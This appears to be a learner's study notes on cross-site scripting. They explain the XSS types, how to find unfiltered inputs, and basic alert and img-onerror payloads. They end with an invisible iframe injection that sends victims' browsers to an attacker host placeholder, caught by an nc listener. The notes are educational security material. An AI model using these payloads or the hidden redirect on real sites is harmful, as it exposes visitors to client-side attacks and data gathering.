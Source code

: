         #XSS cross-site scripting
            https://owasp.org/www-community/xss-filter-evasion-cheatsheet
            data sanitization is were user input data is processed
                and removing all dangours charters or stings. without
                it we can `inject` malcode. on a web page, this is
                XSS. The users browsers exicutes the payload not
                the web app.
                `stored XSS attacks` or `Persistent XSS` exploit
                    payload is stored in a db or cached by the server
                    and displays when they view a vulnerable page.
                    Can effect all users
                `reflected XSS` payload crafted in a request or
                    link. only effects single user
                `DOM-based XSS` only take place in sites DOM
                (document object model) Java can interact with it.
            #IDing XSS vulns    
                ID entry points, like search fields, and input special
                    charters ` <> ' ' { } ; ` and see if any return
                    unfiltered. If the web app doesn't remove or encode
                    the charters, it may be a tgt for XSS
            #basic XSS
                insert java script specific charters ` " ; < > ` in
                    an insert feild. Then when the page changes > `rc`
                    the results > `inspect element` to see if they were
                    removed or encoded, if not, lets XSS
                on the back end of the web app what we want is
                    where the web app stores our input without changing
                    it and then recalls it later to the page.
                `<script>alert(`XSS`)</script>` (with backtics
                    around XSS) a simple payload of
                    javaScript. when the page where the injection is
                    displayed is refreshed it will go off. In this case
                    its a simple pop up window with `XSS` on it.
                    (could be `'XSS'` as well, just sub back ticks
                    for single quotes)
                #img sources
                    some chat forum, chat, post systems allow img. if this is
                    unfiltered, insert a pic fake url and
                    with a `onerror=` run javaScript.
                    `<img src="http://noreal.com" onerror="javascript:alert(1)"/>`
                #img already loaded (with tabs)
                    if javascript is used to load img on the page when a url
                    is input, might be able to edit the url.
                    [web_page_code](web_page_code)
                    `' onerror='alert(1)';'` at the end of a url that is
                    calling an img
                #practice:
                    https://xss-game.appspot.com/level1
                    https://blog.dornea.nu/2014/06/02/googles-xss-game-solutions/
            #contect injection
                `<iframe src=http://<LHOST IP>/report height=”0” width=”0”></iframe>`
                    will inject an iframe that redirects the
                        victums browser to another location.
                        iframes are used to embed another file
                        within the curent htmp document. This makes
                        an "invisable" window cuz its size is 0x0
                        redirecting them to our `nc` listener
                    `nc -nvlp 80`
                        will listen for our scirpt on our LHOST
                            we could use this connection to connect the
                            victum to redirect to client side attack or
                            to info gathering script. Once they
                            leave the page the connection will drop